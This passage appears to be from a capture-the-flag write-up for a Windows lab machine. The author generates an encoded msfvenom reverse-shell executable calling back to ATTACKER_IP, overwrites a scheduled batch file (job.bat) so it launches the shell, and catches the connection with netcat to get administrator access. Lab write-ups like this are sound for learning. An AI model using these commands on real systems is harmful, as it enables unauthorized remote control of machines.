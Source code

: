 We can use `msfvenom` on our local machine to generate the reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

I then transferred this reverse shell script over to the target machine (to **C:\Log-Management**).

<br>

Before we modify job.bat, we need to find a way to run it. We can't directly run it as we are not in the Administrator account but since the file clears event logs, maybe it's being run periodically?

To verify this, let's open **Powershell** and check running processes using `ps`:

<img style="float: left;" src="screenshots/screenshot19.png">

We can see that `wevtutil` is being run! *(you might have to run `ps` a few times before catching this)* This proves that job.bat is indeed being run periodically.

<br>

With the reverse shell script successfully uploaded to **C:\Log-Management**, we can modify job.bat:

```
echo C:\Log-Management\shell.exe > C:\Log-Management\job.bat
```

This will replace job.bat with one single line: '**C:\Log-Management\shell.exe**'. What this does is that when job.bat is subsequently executed, it will in turn execute shell.exe, which is our reverse shell script.

<br>

I set up a netcat listener on my local machine and after some time, the reverse shell was opened.

*(Note: opening the reverse shell was a long and arduous process as job.bat was constantly being reverted back to its original state with its original contents. Hence, I had to keep modifying it until it was run at the perfect timing before it was reverted.)*

<img style="float: left;" src="screenshots/screenshot20.png">

The root flag can be found on the **Desktop** of the Administrator user:

<img style="float: left;" src="screenshots/screenshot21.png">
